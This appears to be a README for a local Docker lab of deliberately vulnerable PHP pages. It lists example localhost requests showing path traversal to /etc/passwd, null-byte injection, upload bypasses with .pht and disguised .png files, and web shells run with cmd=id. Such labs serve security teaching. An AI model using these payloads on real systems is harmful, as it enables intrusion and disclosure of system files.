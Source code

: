 Start docker: ./start.sh

Stop docker: ./end.sh

Examples for arbitrary upload in directory <br><strong>files</strong>


http://127.0.0.1:8080/read.php?file=hello.txt


http://127.0.0.1:8080/read.php?file=secret.txt


http://127.0.0.1:8080/child_directory/secret.txt


http://127.0.0.1:8080/read.php?file2=../../../../../../etc/passwd


http://127.0.0.1:8080/nullbyte.php?page=../../../../../../etc/passwd%00


http://127.0.0.1:8080/uploads/


http://127.0.0.1:8080/uploads/web_shell.php?cmd=id


http://127.0.0.1:8080/uploads/


http://127.0.0.1:8080/uploads/popular_file.php


http://127.0.0.1:8080/img/


http://127.0.0.1:8080/img/uploads/shell.pht?cmd=id


http://127.0.0.1:8080/img/


http://127.0.0.1:8080/img/uploads/image.png - success


http://127.0.0.1:8080/img/


http://127.0.0.1:8080/img/uploads/payload.png 


http://127.0.0.1:8080/nullbyte.php?page=img/uploads/payload.png%00






